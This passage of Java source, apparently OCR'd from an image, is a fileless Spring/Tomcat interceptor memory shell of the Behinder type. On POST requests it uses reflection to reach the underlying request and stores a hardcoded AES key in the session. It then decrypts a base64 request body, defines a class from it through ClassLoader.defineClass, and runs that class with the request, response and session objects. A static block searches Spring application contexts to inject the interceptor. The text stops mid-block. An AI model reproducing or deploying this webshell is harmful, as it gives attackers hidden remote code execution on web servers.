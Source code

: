 ```java
            SecurityContextHolderAwareRequestWrapper securityContextHolderAwareRequestWrapper = (SecurityContextHolderAwareRequestWrapper) req1;
            HttpServletRequestWrapper httpServletRequestWrapper = (HttpServletRequestWrapper) securityContextHolderAwareRequestWrapper.getRequest();
            HttpServletRequestWrapper httpServletRequestWrapper1 = (HttpServletRequestWrapper) httpServletRequestWrapper.getRequest();
            request = (HttpServletRequest) httpServletRequestWrapper1.getRequest();
        }

        // 兼容Springboot + shiro
        if (req1.getClass().getName().contains("ShiroHttpServletRequest")) {
            request = (HttpServletRequest) ((HttpServletRequestWrapper) req1).getRequest();
        }

        if (request.getMethod().equals("POST")) {
            Field var4 = ((RequestFacade) request).getClass().getDeclaredField("request");
            var4.setAccessible(true);
            Request var5 = (Request) var4.get(request);
            Response var6 = var5.getResponse();
            HttpSession var7 = var5.getSession();
            HashMap var8 = new HashMap();
            var8.put("request", var5);
            var8.put("response", var6);
            var8.put("session", var7);
            String var9 = "e45e329feb5d925b";
            var7.putValue("u", var9);
            Cipher var10 = Cipher.getInstance("AES");
            var10.init(2, new SecretKeySpec(var9.getBytes(), "AES"));
            ClassLoader var11 = Thread.currentThread().getContextClassLoader();
            Class var12 = Class.forName("java.lang.ClassLoader");
            Method var13 = var12.getDeclaredMethod("defineClass", String.class, byte[].class, Integer.TYPE, Integer.TYPE);
            var13.setAccessible(true);
            byte[] var14 = var10.doFinal((new BASE64Decoder()).decodeBuffer(var5.getReader().readLine()));
            Class var15 = (Class) var13.invoke(var11, null, var14, 0, var14.length);
            var15.newInstance().equals(var8);
            return false;
        } else {
            return true;
        }
    }

    static {
        try {
            Field applicationContextsField = Class.forName("org.springframework.context.support.LiveBeansView").getDeclaredField("applicationContexts");
            applicationContextsField.setAccessible(true);
            LinkedHashSet<ConfigurableApplicationContext> hashSet = (LinkedHashSet<ConfigurableApplicationContext>) applicationContextsField.get(null);
            WebApplicationContext webApplicationContext;
            Iterator<ConfigurableApplicationContext> iterator = hashSet.iterator();
            while (iterator.hasNext()) {
                ConfigurableApplicationContext configurableApplicationContext = iterator.next();
                if (configurableApplicationContext instanceof WebApplicationContext) {
                    webApplicationContext = (WebApplicationContext) configurableApplicationContext;
                    AbstractHandlerMapping abstractHandlerMapping = (AbstractHandlerMapping) webApplicationContext.getBean("requestMappingHandlerMapping");
                    Field adaptedInterceptorsField = AbstractHandlerMapping.class.getDeclaredField("adaptedInterceptors");
                    adaptedInterceptorsField.setAccessible(true);
                    List adaptedInterceptors = (List) adaptedInterceptorsField.get(abstractHandlerMapping);
```
